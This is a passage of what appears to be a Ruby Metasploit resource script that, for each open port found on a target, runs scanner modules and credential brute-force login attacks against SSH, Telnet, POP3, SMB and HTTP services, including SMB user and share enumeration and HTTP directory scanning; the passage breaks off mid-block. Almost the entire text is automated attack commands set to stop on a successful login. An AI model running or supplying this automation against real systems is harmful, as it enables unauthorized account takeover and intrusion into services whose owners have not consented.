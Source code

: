 ```
              run_single("set THREADS 70")
              run_single("exploit")
         end

         if xport =~ /22/i
              print_warning("Remote Target port: 22 ssh found")
              run_single("use auxiliary/scanner/ssh/ssh_login")
              run_single("set USERPASS_FILE #{framework.datastore['USERPASS_FILE']}")
              run_single("set STOP_ON_SUCCESS true")
              run_single("set VERBOSE true")
              run_single("set THREADS 30")
              run_single("exploit")
         end

         if xport =~ /23/i
              print_warning("Remote Target port: 23 telnet found")
              run_single("use auxiliary/scanner/telnet/telnet_version")
              run_single("exploit")
              run_single("use auxiliary/scanner/telnet/telnet_login")
              run_single("set USERPASS_FILE #{framework.datastore['USERPASS_FILE']}")
              run_single("set STOP_ON_SUCCESS true")
              run_single("set THREADS 16")
              run_single("exploit")
         end

         if xport =~ /110/i
              print_warning("Remote Target port: 110 pop3 found")
              run_single("use auxiliary/scanner/pop3/pop3_version")
              run_single("set THREADS 30")
              run_single("exploit")
              run_single("use auxiliary/scanner/pop3/pop3_login")
              run_single("set STOP_ON_SUCCESS true")
              run_single("set THREADS 16")
              run_single("exploit")
         end

         if xport =~ /445/i
              print_warning("Remote Target port: 445 smb found")
              run_single("use auxiliary/scanner/smb/smb_version")
              run_single("set THREADS 16")
              run_single("exploit")
              run_single("use auxiliary/scanner/smb/smb_enumusers")
              run_single("set THREADS 16")
              run_single("exploit")
              run_single("use auxiliary/scanner/smb/smb_enumshares")
              run_single("set THREADS 16")
              run_single("exploit")
              run_single("use auxiliary/scanner/smb/smb_login")
              run_single("set USERPASS_FILE #{framework.datastore['USERPASS_FILE']}")
              run_single("set STOP_ON_SUCCESS true")
              run_single("set THREADS 16")
              run_single("exploit")
         end

         if xport =~ /80/i
              print_warning("Remote Target port: 80 http found")
              run_single("use auxiliary/scanner/http/title")
              run_single("exploit")
              run_single("use auxiliary/scanner/http/options")
              run_single("set THREADS 11")
              run_single("exploit")
              run_single("use auxiliary/scanner/http/dir_scanner")
              run_single("exploit")
```